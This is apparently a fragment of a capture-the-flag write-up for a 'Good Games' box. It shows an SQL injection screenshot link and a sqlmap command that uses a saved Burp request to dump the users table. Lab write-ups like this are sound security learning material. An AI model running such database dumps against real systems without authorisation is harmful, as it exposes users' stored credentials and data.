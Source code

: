 [<img src="../images/good_games/sql_injection.png"
  style="width: 800px;"/>](../images/good_games/sql_injection.png)
  
With confirmed sql injection I saved the request from burp and passed it to sqlmap and dumped the users table.

```bash
sqlmap -r test.req --batch --dump --threads 10
```
  